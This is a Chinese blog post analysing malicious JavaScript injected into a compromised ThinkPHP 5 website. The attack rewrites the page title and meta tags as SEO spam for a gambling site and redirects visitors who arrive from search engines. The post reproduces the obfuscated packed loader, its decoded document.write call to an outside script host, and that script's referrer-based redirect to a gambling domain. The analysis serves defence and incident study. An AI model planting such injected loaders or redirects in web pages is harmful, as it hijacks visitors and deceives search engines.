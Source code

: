 +++
title = "记一次网页 js 挂马"
topics = ["Pentest"]
tags = ["javascript"]
description = "网页挂马一般是向页面中加入恶意代码进行转跳、下载木马病毒等操作。"
date = "2019-08-19T10:17:46+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-08-19 10:17:46
 * @LastEditTime: 2019-08-19 12:21:34
 -->
### 0x00 常见网页挂马方式
* iframe 框架挂马  
    简单来说就是加 iframe 标签
* script 挂马  
    通过各种办法加载 js 代码
* htm 文件挂马
    上传 htm 文件，然后用 script 引入
* js 挂马
    上传 js 文件，然后用 script 引入
* 图片伪装挂马
    比较新颖的一种挂马隐蔽方法
* 等等。。。

### 0x01 发现被插入恶意 js
前几天在做子域名搜集，搜集完后提取 title，结果看到了一个站点的 title 不正常

网站是 tp5 的，应该是前段时候 tp5 出现命令执行时被入侵的

查看网页 html 源码发现 title 和 meta 的 description 都被改了
```
<title>&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#24179;&#21488;&#44;&#30495;&#38065;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#44;&#25250;&#24196;&#29275;&#29275;&#25163;&#28216;&#19979;&#36733;</title>
<meta name="keywords" content="&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#24179;&#21488;&#44;&#30495;&#38065;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#44;&#25250;&#24196;&#29275;&#29275;&#25163;&#28216;&#19979;&#36733;"/>
<meta name="description" content="&#25250;&#24196;&#29275;&#29275;&#12304;&#55;&#49;&#49;&#49;&#48;&#46;&#99;&#111;&#109;&#12305;&#29616;&#20844;&#21496;&#25317;&#26377;&#19968;&#25209;&#26377;&#20960;&#21313;&#24180;&#21644;&#22810;&#25250;&#24196;&#29275;&#29275;&#25216;&#24039;&#24180;&#40831;&#36718;&#27979;&#37327;&#20013;&#24515;&#21046;&#36896;&#32463;&#39564;&#30340;&#20154;&#21592;&#44;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#35268;&#21017;&#38598;&#25104;&#20102;&#22269;&#20869;&#39030;&#23574;&#40831;&#36718;&#27979;&#37327;&#25216;&#26415;"/>
```

解码一下
```
<title>抢庄牛牛游戏平台,真钱抢庄牛牛游戏,抢庄牛牛手游下载</title>
<meta name="keywords" content="抢庄牛牛游戏平台,真钱抢庄牛牛游戏,抢庄牛牛手游下载"/>
<meta name="description" content="抢庄牛牛【71110.com】现公司拥有一批有几十年和多抢庄牛牛技巧年齿轮测量中心制造经验的人员,抢庄牛牛游戏规则集成了国内顶尖齿轮测量技术"/>
```

### 0x02 简单分析
紧接着有一段 js 代码
```
<script>if(navigator.userAgent.toLocaleLowerCase().indexOf("baidu") == -1){document.title ="XXXX-首页"}</script>
<script type="text/javascript">eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('m["\\n\\b\\2\\e\\f\\7\\l\\0"]["\\o\\4\\8\\0\\7"](\'\\j\\1\\2\\4\\8\\3\\0 \\0\\k\\3\\7\\d\\6\\0\\7\\p\\0\\5\\h\\c\\t\\c\\1\\2\\4\\8\\3\\0\\6 \\1\\4\\2\\d\\6\\9\\0\\0\\3\\1\\v\\5\\5\\1\\a\\9\\e\\a\\9\\s\\g\\2\\b\\f\\5\\u\\r\\q\\3\\g\\h\\1\\6\\i\\j\\5\\1\\2\\4\\8\\3\\0\\i\');',32,32,'x74|x73|x63|x70|x72|x2f|x22|x65|x69|x68|x66|x6f|x61|x3d|x75|x6d|x2e|x6a|x3e|x3c|x79|x6e|window|x64|x77|x78|x71|x38|x32|x76|x6b|x3a'.split('|'),0,{}))
</script>
```

第一个 script 标签中判断了 UA 中是否有 baidu 这个字符，应该是判断是否为百度爬虫，不是的话就显示正常的 title

第二个 script 标签的 js 被简单加密了
```
(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('m["\\n\\b\\2\\e\\f\\7\\l\\0"]["\\o\\4\\8\\0\\7"](\'\\j\\1\\2\\4\\8\\3\\0 \\0\\k\\3\\7\\d\\6\\0\\7\\p\\0\\5\\h\\c\\t\\c\\1\\2\\4\\8\\3\\0\\6 \\1\\4\\2\\d\\6\\9\\0\\0\\3\\1\\v\\5\\5\\1\\a\\9\\e\\a\\9\\s\\g\\2\\b\\f\\5\\u\\r\\q\\3\\g\\h\\1\\6\\i\\j\\5\\1\\2\\4\\8\\3\\0\\i\');',32,32,'x74|x73|x63|x70|x72|x2f|x22|x65|x69|x68|x66|x6f|x61|x3d|x75|x6d|x2e|x6a|x3e|x3c|x79|x6e|window|x64|x77|x78|x71|x38|x32|x76|x6b|x3a'.split('|'),0,{}))
```

先在 chrome 的 Console 运行后得到
```
"window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x22\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x22 \x73\x72\x63\x3d\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x73\x66\x68\x75\x66\x68\x32\x2e\x63\x6f\x6d\x2f\x6b\x38\x71\x70\x2e\x6a\x73\x22\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');"
```

python 将 16 进制转化为字符串
```
>>> '''window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x22\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x22 \x73\x72\x63\x3d\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x73\x66\x68\x75\x66\x68\x32\x2e\x63\x6f\x6d\x2f\x6b\x38\x71\x70\x2e\x6a\x73\x22\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');'''
window["document"]["write"]('<script type="text/javascript" src="https://sfhufh2.com/k8qp.js"></script>');
```

可以看到上面那段加密的代码作用是引入 k8qp.js 这个 js 文件，而这个文件中有下面这一段 js
```
document.writeln("<script LANGUAGE=\"Javascript\">");
document.writeln("var s=document.referrer");
document.writeln(
    "if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )"
);
document.writeln("location.href=\"https://71110tz.com/\";");
document.writeln("</script>");
```

判断了 Referer，是 baidu、sogou、soso 之类的话 location.href 跳转到恶意站点 https://71110tz.com/

<br>
以上

<br>
#### Reference(侵删)：
* [https://www.test404.com/post-655.html?wafcloud=1](https://www.test404.com/post-655.html?wafcloud=1?_blank)

